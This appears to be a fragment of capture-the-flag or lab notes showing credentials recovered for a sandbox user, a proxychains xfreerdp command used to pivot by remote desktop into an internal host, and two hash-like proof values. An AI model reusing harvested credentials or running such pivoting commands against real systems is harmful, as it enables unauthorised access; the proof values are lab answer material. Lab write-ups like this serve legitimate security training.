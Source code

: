 **Retreived Credentials**
```
$username = "sandbox\alex"
$pwdTxt = "Ndawc*nRoqkC+haZ"
```


```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard /tls-seclevel:0 /timeout:80000
```

```
39f03bb56cd0d3272bc87b52ead4eddd

3bce9e073367f6d760f1c4a0fd368bf7
```

![[poultry-proof.png]]